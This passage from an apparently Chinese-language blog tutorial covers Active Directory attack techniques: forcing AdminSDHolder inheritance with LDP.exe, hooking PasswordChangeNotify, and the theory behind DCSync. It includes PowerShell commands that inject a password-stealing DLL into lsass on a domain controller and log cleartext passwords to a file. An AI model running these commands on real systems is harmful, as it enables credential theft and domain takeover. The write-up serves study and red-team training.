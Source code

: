 + 强制运行

  1. 运行->`LDP.exe`
  2. 然后选择菜单：`连接->连接`，服务器输入你当前的机器名，端口默认为`389`
  3. 然后绑定凭证，选择`绑定为当前登录的用户`，如果选择`与凭据绑定`需要输入用户名和密码
  4. 然后`浏览->修改`，在`属性`选项卡中输入`FixUpInheritance`。在值字段中输入`Yes`。操作选择`添加`，然后单击`输入`，最后运行即可。

  ![ldp](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/prive-long/ldp.png)

### HOOK PasswordChangeNotify

PasswordChangeNotify在微软的官方文档中称为PsamPasswordNotificationRoutine，是一个API.当用户重置密码时windows会检查新密码是否符合复杂性，符合要求，LSA则调用PasswordChangeNotify函数在系统中同步密码。由于在调用时，用户的账户和密码是通过明文形式进行传输。攻击者可以通过HOOK技术，劫持函数的执行流程，从而获取传入的明文密码。

+ 利用工具

  Hook-PasswordChange.dll

  Invoke-ReflectivePEInjection.ps1

+ 具体利用

  1.将工具上传到域控机器，通过Invoke将dll注入到 lsass进程当中

  ```powershell
  #导入Invoke-ReflectivePEInjection.ps1
  Import-Module .\Invoke-ReflectivePEInjection.ps1
  #读取Hook-PasswordChange.dll并将其注入到lsass进程
  $PEBytes = [IO.File]::ReadALLBytes('C:\HookPasswordChange.dll')
  Invoke-ReflectivePEInjection -PEBytes $PEBytes -ProcName lsass
  ```

  环境有问题，一直缺少了一个动态链接库，干脆换了一个一键式的ps脚本
  
  ```powershell
  PowerShell.exe -ExecutionPolicy Bypass -File HookPasswordChangeNotify.ps1
  ```
  
  2.当网络管理员修改密码时，新的账户和密码会被保存到C:\Windows\Temp下的passwords.txt文件
  
  也可以通过修改脚本的方式来将修改过的密码传递到远程服务器上
  
  项目地址：https://github.com/kevien/PasswordchangeNotify

## DCSync攻击技术

### 原理

一个域环境可以有多个域控制器，为了防止DC出现意外导致域内瘫痪，所以都是要布置多台域控作为AD域的备份，或者是部署多台域控制器，方便在站点位置本地提供身份验证和其他策略。当企业内网当做部署了多台域控制器后，一台域控进行了数据的更改之后，需要与其他域控进行数据的同步。**而这个同步是通过Microsoft的远程目录复制服务协议 (MS-DRSR),该协议是基于MSRPC / DCE/RPC )进行的。并且其 DRS 的 Microsoft API 是DRSUAPI**。

在不同的域控制器之间每15分钟就会同步一次数据，当一个域控想要从另一个域控获取数据时，客户端域控会向服务端域控发送GetNCChanges请求，该请求的数据包括需要同步的数据。如果需要同步的数据比较多，则会重复上述过程。DCSync 就是利用的这个原理，**通过 Directory Replication Service（DRS） 服务的 GetNCChanges 接口向域控发起数据同步请求**。

域内用户的权限最根本来自于DACL，对于DCSync来说,只要域用户有以下三条DACL即可向域控发起数据同步请求
